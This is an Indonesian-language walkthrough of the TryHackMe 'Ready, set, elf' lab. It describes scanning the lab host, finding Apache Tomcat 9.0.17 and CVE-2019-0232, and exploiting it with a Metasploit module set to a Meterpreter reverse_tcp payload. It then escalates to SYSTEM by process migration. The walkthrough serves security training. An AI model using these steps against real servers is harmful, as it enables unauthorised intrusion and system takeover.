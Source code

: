 # Day 12 | Ready, set, elf

`TryHackMe` `Networking` `Public Exploits` `Metasploit` `Privilege Escalation` 

---

## Learning Outcomes

- Mengetahui cara melakukan *information gathering* dan *enumeration*
- Mencari kerentanan yang terpublikasi (CVE)
- Menggunakan metasploit pada post eksploitasi

## Story 

> Christmas is fast approaching, yet, all remain silent at The Best Festival Company (TBFC). What gives?! The cheek of those elves - slacking at the festive period! Santa has no time for slackers in his workshop. After all, the sleigh won't fill itself, nor will the good and naughty lists be sorted. Santa has tasked you, Elf McEager, with whacking those elves back in line.

## Summary

tl;dr 

> tanpa privesc
- Gunakan metasploit dengan module exploit/windows/http/tomcat_cgi_cmdlineargs
- Sesuaikan opsi required-nya, dimana TARGETURI-nya adalah /cgi-bin/elfwhacker.bat
- Run exploit!


## Write-up

Write up untuk task kali ini selain mengikuti alur dari challenge dan pertanyaan dibawah, terdapat juga bonus challenge untuk melakukan privilege escalation.

Berikut penyelesaiannya.

### Challenge

> To solve Elf McSkidy's problem with the elves slacking in the workshop, he has created the CGI script: **elfwhacker.bat**
>
> Deploy the instance attached to this task, use your NMAP skills from "Day 8 - What's Under the Christmas Tree?  to find out what port the webserver (MACHINE_IP) is running on...Visit the application and discover the installation version, weaponise this information by searching knowledgebases for exploits and Meterpreter payloads possible and whack those elves!.
>
>*Bonus: There are at least two ways of escalating your privileges after you gain entry. Find these out and pivot at your leisure! (please note that this is optional for the day should you fancy the challenge...)*

### Q1: What is the version number of the web server?

Untuk menjawab pertanyaan ini, hal pertama yang dilakukan adalah melakukan pemindaian port pada mesin yang di deploy, namun, hasil pemindaian berikut gagal.

```
nmap 10.10.230.214
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-12 20:12 EST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.76 seconds
```

Mesin yang dideploy melakukan drop paket icmp atau ping. Hal diatas umumnya sering terjadi pada mesin yang menggunakan Windows.

Berdasarkan rekomendasi nmap, kita dapat mencoba menambahkan opsi `-Pn`. 

```
nmap -sC -sV -Pn --min-rate 10000 10.10.230.214
```

Dan pemindaian berhasil, berikut outputnya.

```
PORT     STATE SERVICE        VERSION
3389/tcp open  ms-wbt-server?
| rdp-ntlm-info:
|   Target_Name: TBFC-WEB-01
|   NetBIOS_Domain_Name: TBFC-WEB-01
|   NetBIOS_Computer_Name: TBFC-WEB-01
|   DNS_Domain_Name: tbfc-web-01
|   DNS_Computer_Name: tbfc-web-01
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-13T01:05:20+00:00
| ssl-cert: Subject: commonName=tbfc-web-01
| Issuer: commonName=tbfc-web-01
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-11-27T01:29:04
| Not valid after:  2021-05-29T01:29:04
| MD5:   00ab 1b83 e8e5 f516 f148 d602 2dea 18f4
|_SHA-1: bd1d 6535 5d3c 80a3 8a5f 98dd 8f98 44ee 9320 509e
|_ssl-date: 2020-12-13T01:05:24+00:00; +3s from scanner time.
8009/tcp open  ajp13          Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http           Apache Tomcat 9.0.17
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.17

Host script results:
|_clock-skew: mean: 2s, deviation: 0s, median: 2s
```

### Q2: What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)

Untuk menjawab pertanyaan ini, saya menggunakan hint yang ada :)

![191c18611d7eb334dc8edee9c2bf7ae9.png](./_resources/f7cabe48e8b44a878177fbd58008960b.png)

Hasil pencarian mengarah ke `CVE-2019-0232`

![a142fc38f35c3de1fc2c4556d8dc3072.png](./_resources/89d2233f7ed242aa8f00de4d1092182c.png)

Sumber : https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-887/version_id-209957/Apache-Tomcat-9.0.0.html


### Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

Metasploit memiliki module exploit dari CVE tersebut

![72a020a98e6377a99af6382879c4fa38.png](./_resources/b593dde6795f4e62a6e6fb1800819967.png)

Berikut opsi yang ada pada module tersebut.

![baaa42f715ca862b71d028c5cf5b2e59.png](./_resources/b668a888f5a74fc3a09f61d2e679431f.png)

Opsi yang bersifat required dan belum terpenuhi adalah
TARGETURI, kita dapat mencoba teknik fuzzing karena nama scriptnya sudah diketahui, yaitu **`elfwhacker.bat`**

![b5e8ba29d1137179556cfef34787b96f.png](./_resources/003d7cb6e9ea46fbbafb3bb2f4521e60.png)

Seluruh opsinya required sudah terpenuhi

![edc434b747f56418fe056fdace55e117.png](./_resources/5a557297e41940a69e6445b36dd8ddb7.png)

Lalu gunakan payload meterpreter x64
```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
Berikut hasil eksploitasi.

![c76301ec9bbcb4bdc940a48dbc6d6090.png](./_resources/49f4b36bf2c74d7897e76233f11a8415.png)

### Q3: What are the contents of flag1.txt

Gunakan perintah `type` untuk membaca konten file dari flag1.txt
![75bef2a0cb69818bacd73fc80b188ecb.png](./_resources/024bf2ab060349878b37bb42da61dab7.png)


### Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!

> Mencoba bonus challenge

Metasploit memiliki post exploitation modules, salah satunya adalah local_exploit_suggester

![376fb3c4903223efcd69fa2543a1bf44.png](./_resources/510e00e709e64743818e22d06bad18f3.png)

Arsitektur mesin target adalah windows x64

![b524519c9e638cd5ec1e94936e58cb71.png](./_resources/a9f9261d676d4ac5b4ecbc4af63d38b8.png)
 
Sebelum menggunakan dua exploit tersebut, terdapat suatu proses bernama `Elfwhacker.exe`, proses ini berjalan sebagai NT Authority\System

![0b94a6dd1f3c50b8b04f48508a7bca7f.png](./_resources/14fa762d449c49e9b9e735b169c4b7c2.png)

Proses migrasi ke pid tersebut berhasil.

![d927e2ce7693e38c31092d45ec61c9d8.png](./_resources/2d22272be6c446dda4971854fbb78896.png)

Done

![fbf3a3711f57a42ceb851423ddf971f7.png](./_resources/3d3d4b4a43bd4ceca7317a918c3c686c.png)